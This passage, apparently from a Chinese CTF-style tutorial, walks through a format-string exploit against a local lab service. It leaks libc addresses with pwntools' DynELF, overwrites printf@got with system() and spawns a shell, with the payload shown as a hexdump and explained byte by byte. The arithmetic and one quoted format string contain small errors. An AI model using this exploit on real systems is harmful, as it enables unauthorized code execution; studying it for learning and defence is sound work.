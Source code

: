 ```python
offset_system = 0x0003cc50
system_addr = printf_addr - (offset_printf - offset_system)
```

第二种方法是使用 DynELF 模块来泄露函数地址：
```python
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
data = DynELF(leak, 0x08048490)     # Entry point address
system_addr = data.lookup('system', 'libc')
printf_addr = data.lookup('printf', 'libc')
log.info("system address: 0x%x" % system_addr)
log.info("printf address: 0x%x" % printf_addr)
```
```
[*] system address: 0xf7df9c50
[*] printf address: 0xf7e0e670
```
DynELF 不要求我们拿到 libc.so，所以如果我们查询不到 libc.so 的版本信息，该模块就能发挥它最大的作用。

#### attack
按照格式化字符串漏洞的套路，我们通过任意写将 printf@got 指向的内存覆盖为 system 的地址，然后发送字符串 `/bin/sh`，就可以在调用 `printf("/bin/sh")` 的时候实际上调用 `system("/bin/sh")`。

终极 payload 如下，使用 `fmtstr_payload` 函数来自动构造，将：
```python
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.0.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```
虽说有这样的自动化函数很方便，基本的手工构造还是要懂的，看一下生成的 payload 长什么样子：
```
[DEBUG] Sent 0x3a bytes:
    00000000  74 99 04 08  75 99 04 08  76 99 04 08  77 99 04 08  │t···│u···│v···│w···│
    00000010  25 36 34 63  25 37 24 68  68 6e 25 37  36 63 25 38  │%64c│%7$h│hn%7│6c%8│
    00000020  24 68 68 6e  25 36 37 63  25 39 24 68  68 6e 25 32  │$hhn│%67c│%9$h│hn%2│
    00000030  34 63 25 31  30 24 68 68  6e 0a                     │4c%1│0$hh│n·│
    0000003a
```
开头是 printf@got 地址，四个字节分别位于：
```
0x08049974
0x08049975
0x08049976
0x08049977
```
然后是格式字符串 `%64c%7$hhn%76c%8hhn%67c%9$hhn%24c%10$hhn`：
```
16  + 64 = 80  = 0x50
80  + 76 = 156 = 0x9c
156 + 67 = 223 = 0xdf
233 + 24 = 247 = 0xf7
```
就这样将 system 的地址写入了内存。
